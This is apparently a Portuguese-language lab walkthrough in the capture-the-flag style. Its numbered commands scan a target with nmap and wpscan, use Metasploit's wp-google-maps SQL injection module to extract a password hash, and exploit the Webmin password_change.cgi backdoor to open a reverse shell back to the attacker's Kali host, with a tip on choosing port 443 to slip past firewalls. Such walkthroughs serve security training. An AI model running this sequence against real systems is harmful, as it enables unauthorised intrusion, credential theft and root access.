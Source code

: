 # First Pass Recon

```
1º sudo nmap -sS -T4 'Seu IP'
``` 
"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

```
2º wpscan  —url ‘IP ALVO’
```
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

```
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
```
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

```
4º sudo msfconsole
```
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

```
5º msf5 > search wp-google-maps
```
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

```
6º msf5 > use 0  
```
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

```
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra as opções e quais dados devem ser setados no exploit."

```
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
```
"Adiciona o IP do alvo ao exploit para SQLinjection" 

```
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

```
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
```
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

```
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
```
"Comando para iniciar o exploit que será utilizado."

```
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

```
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
```
"Analisa as informações do exploit, mostrando a versão."

```
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
```
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

```
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

```
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO 
(Realiza conexão remota)
```

```
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI 
(Recebe a conexão reversa)
```

```
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 
(Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
```

```
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE 
(Confirma para que assim tenha a conexão)
```

```
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```

Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal ```-> shell <-``` acesso realizado. 
